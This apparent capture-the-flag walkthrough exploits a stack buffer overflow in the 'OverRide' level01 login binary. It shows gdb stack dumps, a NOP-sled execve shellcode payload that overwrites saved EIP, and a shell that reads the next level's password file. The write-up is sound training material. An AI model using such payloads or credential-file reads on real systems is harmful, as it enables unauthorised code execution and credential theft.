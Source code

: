 # Walkthrough level01

First we have execute the program.  

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: aaaa
verifying username....

nope, incorrect username...

```

With the disassembly code we have write c code. A comparaison with a string is do to verify username.   
So we have execute the program with this value :  

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
aaaa
nope, incorrect password...

```

A comparaison with a password is do but for each input, it's print "nope, incorrect password..." and programm return 1.
So we must write a shellcode in the buffer and override save EIP in our shellcode.

```bash
(gdb) r < <(echo "dat_wil"; python -c'print("aaaa")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level01/level01 < <(python -c'print("dat_wil")'; python -c'print("aaaa")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 

Breakpoint 3, 0x08048574 in main ()
(gdb) ni
0x08048579 in main ()
(gdb) x/42xw $esp
0xffffd6d0:	0xffffd6ec	0x00000064	0xf7fcfac0	0x00000001
0xffffd6e0:	0xffffd8ee	0x0000002f	0xffffd73c	0x61616161
0xffffd6f0:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd700:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd710:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513

(gdb) i f 
Stack level 0, frame at 0xffffd740:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd738, args: 
 Locals at 0xffffd738, Previous frame's sp is 0xffffd740
 Saved registers:
  ebx at 0xffffd730, ebp at 0xffffd738, edi at 0xffffd734, eip at 0xffffd73c
```

Saved EIP is at 0xffffd73c. So we must write 84 bytes in buffer to erase it.   
We can write our shellcode and point save EIP in that address using NOP instruction.   
We have a buffer of 64 bytes but we fgets 100 bytes in stdin. So we can override save EIP.

```bash
(gdb) r < <(echo "dat_wil"; python -c'print("\x90" * 32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 20 + "\xff\xff\xd7\x00"[::-1])')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 

0x08048579 in main ()
(gdb) x/42xw $esp
0xffffd6d0:	0xffffd6ec	0x00000064	0xf7fcfac0	0x00000001
0xffffd6e0:	0xffffd8ee	0x0000002f	0xffffd73c	0x90909090
0xffffd6f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd700:	0x90909090	0x90909090	0x90909090	0x6850c031
0xffffd710:	0x68732f2f	0x69622f68	0x89e3896e	0xb0c289c1
0xffffd720:	0x3180cd0b	0x80cd40c0	0x42424242	0x42424242
0xffffd730:	0x42424242	0x42424242	0x42424242	0xffffd700
0xffffd740:	0x0000000a	0xffffd7d4	0xffffd7dc	0xf7fd3000
0xffffd750:	0x00000000	0xffffd71c	0xffffd7dc	0x00000000
```
 If we execute this payload in a terminal we obtain a shell.

 ```bash
 level01@OverRide:~$ (echo "dat_wil"; python -c'print("\x90" * 32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 20 + "\xff\xff\xd7\x00"[::-1])'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
